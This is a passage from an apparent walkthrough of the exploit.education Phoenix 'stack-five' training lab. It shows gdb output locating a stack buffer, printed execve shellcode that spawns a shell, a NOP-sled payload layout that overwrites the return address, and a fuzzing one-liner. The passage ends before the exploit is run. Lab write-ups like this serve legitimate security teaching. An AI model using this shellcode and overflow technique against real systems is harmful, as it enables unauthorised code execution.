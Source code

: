    0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave
   0x00000000004005a3 <+22>:	ret
End of assembler dump.
gdb) b *0x000000000040059c
Breakpoint 1 at 0x40059c
```

Now run and find the address,

```
(gdb) r
Starting program: /home/user/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

....

(gdb) print $rbp-0x80
$1 = (void *) 0x7fffffffe530
```

So the starting address of our ```buffer``` is ```0x7fffffffe530```

To pop a shell, we will be using the 27 bytes shellcode below,

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Lets exploit the binary now,

```payload = junk(nops) + shellcode + junk + base pointer (nops) + return address```

Here "nops" is referred as "No Operation" , and it is given by ```\x90```

After our ```buffer``` we need to fill our ```Base Pointer (8 bytes)``` to reach our ```$rip```

In ```$rip``` we will be filling it with ```0x7fffffffe530```,the starting address of our ```buffer```

Fuzzing it,

```
user@phoenix-amd64:~$ python -c "print('A'*128+'B'*8+'C'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC
user@phoenix-amd64:~$ python -c "print('A'*128+'B'*8+'C'*6)" > fuzz
user@phoenix-amd64:~$ cat fuzz
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC

